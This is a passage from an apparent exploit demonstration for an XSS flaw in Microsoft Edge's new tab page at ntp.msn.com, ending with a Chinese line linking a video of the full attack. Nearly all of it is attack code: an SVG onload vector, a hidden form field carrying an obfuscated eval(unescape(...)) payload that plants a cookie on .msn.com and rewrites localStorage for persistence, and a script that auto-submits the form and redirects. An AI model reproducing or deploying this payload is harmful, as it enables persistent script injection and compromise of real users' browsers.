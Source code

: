 ```
        }
    }
		
}()
---------------------------------------------------------------------
unescaped value above (Executes in normal 'ntp.msn.com')
---------------------------------------------------------------------
<SvG/OnLoAd='document.write(/@qab/.source)'>
-->
  <input  type="hidden" name="startnum" value="90'<SvG/onLoAd=eval(unescape('%28%71%64%3d%20%6e%65%77%20%44%61%74%65%28%29%29%2e%73%65%74%4d%6f%6e%74%68%28%71%64%2e%67%65%74%4d%6f%6e%74%68%28%29%20%2b%20%31%32%29%3b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3d%22%64%6f%6d%61%69%6e%49%64%3d%22%2b%28%75%6e%65%73%63%61%70%65%28%27%25%37%31%25%32%32%25%32%61%25%36%36%25%37%35%25%36%65%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%32%38%25%32%39%25%37%62%25%36%36%25%36%66%25%37%32%25%32%38%25%37%31%25%32%30%25%36%39%25%36%65%25%32%30%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%32%39%25%37%62%25%36%39%25%36%36%25%32%38%25%37%31%25%32%65%25%36%39%25%36%65%25%36%34%25%36%35%25%37%38%25%34%66%25%36%36%25%32%38%25%32%37%25%36%63%25%36%31%25%37%33%25%37%34%25%34%62%25%36%65%25%36%66%25%37%37%25%36%65%25%32%37%25%32%39%25%33%65%25%32%64%25%33%31%25%32%39%25%37%62%25%37%37%25%36%39%25%37%34%25%36%38%25%32%38%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%33%64%25%34%61%25%35%33%25%34%66%25%34%65%25%32%65%25%37%30%25%36%31%25%37%32%25%37%33%25%36%35%25%32%38%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%35%62%25%37%31%25%35%64%25%32%39%25%32%39%25%37%62%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%65%25%36%34%25%36%66%25%36%64%25%33%64%25%37%35%25%36%65%25%36%35%25%37%33%25%36%33%25%36%31%25%37%30%25%36%35%25%32%38%25%32%37%25%32%35%25%33%33%25%36%33%25%32%35%25%33%35%25%33%33%25%32%35%25%33%37%25%33%36%25%32%35%25%33%34%25%33%37%25%32%35%25%33%32%25%36%36%25%32%35%25%33%34%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%34%25%36%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%34%25%33%31%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%32%25%33%37%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%37%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%38%25%32%35%25%33%32%25%36%36%25%32%35%25%33%34%25%33%30%25%32%35%25%33%37%25%33%31%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%32%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%36%35%25%32%37%25%32%39%25%32%62%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%65%25%36%34%25%36%66%25%36%64%25%37%64%25%37%37%25%36%39%25%37%34%25%36%38%25%32%38%25%37%31%25%36%31%25%36%32%25%33%64%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%39%25%37%62%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%35%62%25%37%31%25%35%64%25%33%64%25%34%61%25%35%33%25%34%66%25%34%65%25%32%65%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%36%39%25%36%36%25%37%39%25%32%38%25%37%31%25%36%31%25%36%32%25%32%39%25%37%64%25%37%64%25%37%64%25%37%64%25%32%38%25%32%39%25%32%61%25%32%32%25%37%31%27%29%29%2b%22%3b%65%78%70%69%72%65%73%3d%22%2b%71%64%2b%22%3b%64%6f%6d%61%69%6e%3d%2e%6d%73%6e%2e%63%6f%6d%3b%70%61%74%68%3d%2f%22%3b'))">
  
</form>
<script>
qframe.onload=e=>{
 setTimeout(function(){
 location="https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz";
 },1000)
}

qform.submit();
</script>
</body>
</html>
```
视频里时完整攻击过程，可以略过中间的42s：
视频链接：
https://leucosite.com/Edge-Chromium-EoP-RCE/NTP-XSS-FULL.MP4
